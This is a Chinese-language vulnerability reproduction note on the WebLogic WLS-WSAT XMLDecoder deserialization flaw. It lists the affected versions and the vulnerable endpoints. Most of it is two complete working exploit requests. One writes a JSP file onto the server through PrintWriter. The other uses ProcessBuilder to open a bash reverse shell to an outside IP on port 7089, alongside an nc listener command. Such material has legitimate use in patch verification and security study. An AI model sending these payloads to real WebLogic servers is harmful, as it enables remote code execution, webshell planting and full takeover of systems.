

## 简介

该漏洞利用了Weblogic中的WLS Security组件对外提供的webservice服务，使用组件中的XMLDecoder来解析用户传入的XML数据，解析过程中会有反序列化的过程(XML自身就是序列化过的数据，不需要序列化XML内容就可以被反序列化），一旦在XML中有创建类对象实例的恶意代码，就可以利用该对象的方法执行恶意代码（包括写入一句话木马，执行反弹shell指令等，要看该对象的方法的作用是写入数据到某个文件还是直接执行指令）。

## 漏洞影响版本

10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0

## 漏洞触发地址

```
`/wls-wsat/CoordinatorPortType` 
`/wls-wsat/RegistrationPortTypeRPC`
`/wls-wsat/ParticipantPortType` 
`/wls-wsat/RegistrationRequesterPortType` 
`/wls-wsat/CoordinatorPortType11`
`/wls-wsat/RegistrationPortTypeRPC11` 
`/wls-wsat/ParticipantPortType11`
`/wls-wsat/RegistrationRequesterPortType11`
```

## 测试代码

通过改造HTTP为POST类型，利用CoordinatorPortType组件的java.beans.XMLDecoder类中的java.io.PrintWriter类构建一个实例，该实例的目标地址为servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp，并调用println方法向该目标地址中写入out.print("test");在通过web访问该文件时就会执行该文件中的代码。

通过访问http://ip:port/bea_wls_internal/test.jsp即可访问到该网页。

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println">
<string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```



## 攻击代码（反弹shell）

监听本地端口

nc -l -p 7089

利用burp更改数据包，反弹shell

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: IP:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.206.132/7089 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

